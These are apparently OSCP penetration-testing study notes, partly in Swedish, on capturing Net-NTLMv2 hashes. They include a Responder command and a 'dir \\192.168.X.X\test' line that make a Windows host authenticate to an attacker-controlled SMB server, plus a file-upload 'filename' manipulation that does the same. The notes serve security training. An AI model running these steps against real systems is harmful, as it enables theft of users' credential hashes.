 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/7-net-ntl-mv2-stealing/"}
---
```


- Another way of accessing hashes is by capturing them in the middle of an authentication to a controlled system.
- Hashes are spilled when trying to authenticate using the Net-NTLMv2 protocol instead of Kerberos, which is more secure.
- This could be done by already having RCE and accessing higher privileged hashes, or by forcing the system via some function to authenticate against our controlled machine

----------------

### RCE Net-NTLMv2 Hash Steal:
1. Enumerera användaren (valfritt):
```
net user <user>
```
2. Sätt upp SMB Server med Responder i Kali:
```
sudo responder -I <interface>
```
3. Skicka en förfrågan efter en arbiträr share på SMB-servern från Windows:
```
dir \\192.168.X.X\test
```
4. Win!

----------
### File Upload Net-NTLMv2 Hash Steal:
1. Modifiera Burp Requesten för parametern 'filename' att ladda upp en arbiträr fil från Responder-SMB:n.
2. Win!

